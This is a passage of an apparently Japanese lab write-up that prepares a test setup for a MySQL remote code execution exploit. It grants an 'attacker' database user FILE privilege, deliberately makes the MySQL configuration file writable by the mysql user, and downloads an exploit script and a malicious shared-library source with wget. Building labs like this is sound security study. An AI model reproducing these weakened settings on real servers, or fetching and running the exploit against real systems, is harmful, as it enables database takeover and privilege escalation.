  * scapegoat.test 攻撃対象ホスト
 * attacker.test  攻撃者のホスト

### 事前準備

 * MySQLの設定

```
kosuke@scapegoat ~ $ mysql -uroot -pmysql
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 44
Server version: 5.5.50-0+deb8u1 (Debian)

Copyright (c) 2000, 2016, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> CREATE DATABASE pocdb;
Query OK, 1 row affected (0.00 sec)

mysql> GRANT FILE ON *.* TO 'attacker'@'%' IDENTIFIED BY 'p0cpass!';
Query OK, 0 rows affected (0.00 sec)

mysql> GRANT SELECT, INSERT, CREATE ON `pocdb`.* TO 'attacker'@'%';
Query OK, 0 rows affected (0.00 sec)

mysql> select User,File_priv,Super_priv from mysql.user where user='attacker';
+----------+-----------+------------+
| User     | File_priv | Super_priv |
+----------+-----------+------------+
| attacker | Y         | N          |
+----------+-----------+------------+
1 row in set (0.00 sec)

mysql> exit
Bye
```

 * MySQLの設定ファイルのパーミッションを脆弱にする

```
kosuke@scapegoat ~ $ ls -l /etc/mysql/my.cnf
-rw-r--r-- 1 root root 3533  7月 21 14:04 /etc/mysql/my.cnf
kosuke@scapegoat ~ $ sudo chown mysql:mysql /etc/mysql/my.cnf
kosuke@scapegoat ~ $ sudo chmod 644 /etc/mysql/my.cnf
```

 * 攻撃用のexploitと悪意のあるshareモジュールをダウンロードする

```
kosuke@attacker ~ $ wget http://legalhackers.com/exploits/0ldSQL_MySQL_RCE_exploit.py
kosuke@attacker ~ $ wget http://legalhackers.com/exploits/mysql_hookandroot_lib.c
```

